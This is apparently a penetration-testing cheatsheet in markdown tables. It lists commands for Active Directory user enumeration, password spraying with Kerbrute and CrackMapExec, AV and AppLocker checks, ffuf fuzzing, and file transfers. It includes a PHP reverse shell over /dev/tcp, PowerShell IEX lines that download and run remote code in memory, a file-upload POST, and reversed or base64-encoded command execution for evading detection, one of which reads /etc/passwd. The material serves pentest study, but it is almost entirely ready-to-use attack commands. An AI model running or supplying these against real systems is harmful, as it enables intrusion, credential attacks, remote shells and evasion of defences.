 # Cheatsheet

| Command                                                                                                      | Description                                            |
| ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| `fping -asgq <subnet/cidr>`                                                                                  | Quick way to ping all hosts in a subnet on kali.       |
| `./kerbrute userenum -d <Domain> --dc <dc IP> <username wordlist> -o <result output>`                        | Kerbrute userenum syntax, given a username wordlist    |
| `crackmapexec smb <IP address> -u <username> -p <password> --pass-pol`                                       | Crackmapexec with valid creds to eval password policy. |
| `rpcclient -U "" -N <IP address> rpcclient $> enumdomuser`                                                   | RPC Client NULL authentication enum domain users.      |
| `net accounts`                                                                                               | Enum password policy on Windows                        |
| `crackmapexec smb <IP address> --users`                                                                      | CrackMapExec to find users in Windows domain           |
| `kerbrute passwordspray -d <Domain> --dc <IP Address> <users.txt> <password>`                                | Kerbrute password spray                                |
| `sudo crackmapexec smb <IP Address> -u <users.txt> -p <password> \| grep +`                                  | CrackMapExec password spray                            |
| `Get-MpComputerStatus`                                                                                       | Check AntiVirus                                        |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`                                   | Check App Locker.                                      |
| `$ExecutionContext.SessionState.LanguageMode`                                                                | Find PowerShell Language Mode                          |
| `sudo crackmapexec smb <IP address> -u <username> -p <password> --users`                                     | Authenticated scan for more users.                     |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --groups`                                        | Authenticated scan for more groups.                    |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --loggedon-users`                                | Authenticated scan for logged on users.                |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --shares`                                        | Authenticated scan for shares.                         |
| `sudo crackmapexec smb <IP address> -u <user> -p <passowrd -M spider_plus --share <share>`                   | Authenticated scan to crawl target share               |
| `smbmap -u <user> -p <passowrd> -d <domain> -H <IP address>`                                                 | Authenticated scan to list shares.                     |
| `sudo bloodhound-python -u <user> -p <password> -ns <nameserver IP> -d <domain> -c all`                      | Authenticated Bloodhound all.                          |
| `"IEX(New-Object Net.WebClient).downloadString('<URL>')"`                                                    | PowerShell one-liner used to download a file.          |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");`                                         | PHP reverse shell                                      |
| `sudo python3 joomla-brute.py -u <url> -w <password list> -usr <username or user list>`                      | Joomla brute script                                    |
| **Reversed Commands**                                                                                        |                                                        |
| `echo 'whoami' \| rev`                                                                                       | Reverse a string                                       |
| `$(rev<<<'imaohw')`                                                                                          | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                             | Encode a string with base64                            |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`                                                 | Execute b64 encoded string                             |
| **Reversed Commands**                                                                                        |                                                        |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                                       |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64                            |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                             |
## Ffuf
| **Command**                                                                                                                                 | **Description**          |
| ------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------ |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`                                                                                   | Directory Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`                                                                              | Extension Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ.php`                                                                               | Page Fuzzing             |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`                                          | Recursive Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.URL/`                                                                                            | Sub-domain Fuzzing       |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/ -H 'Host: FUZZ.URL' -fs xxx`                                                                 | VHost Fuzzing            |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/login.php?FUZZ=key -fs xxx`                                                                   | Parameter Fuzzing - GET  |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/login.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` | Parameter Fuzzing - POST |
| `ffuf -w ids.txt:FUZZ -u http://URL:PORT/login.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`       | Value Fuzzing            |
## File transfers
| **Command**                                                                                                        | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| `Invoke-WebRequest <URL> -OutFile <output filename>`                                                               | Download a file                              |
| `IEX (New-Object Net.WebClient).DownloadString('<URL>')`                                                           | Execute a file in memory                     |
| `Invoke-WebRequest -Uri <URL> -Method POST -Body $b64`                                                             | Upload a file                                |
| `bitsadmin /transfer n <URL> <OUTPUT PATH>`                                                                        | Download a file using Bitsadmin              |
| `certutil.exe -verifyctl -split -f <URL>`                                                                          | Download a file using Certutil               |
| `wget <URL> -O <OUTPUT PATH>`                                                                                      | Download a file using Wget                   |
| `curl -o <OUTPUT PATH> <URL>`                                                                                      | Download a file using cURL                   |
| `php -r '$file = file_get_contents("<URL>"); file_put_contents("<FILENAME>",$file);'`                              | Download a file using PHP                    |
| `Invoke-WebRequest <URL> -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Firefox -OutFile "<OUTPUT FILE>"` | Invoke-WebRequest using a Firefox User Agent |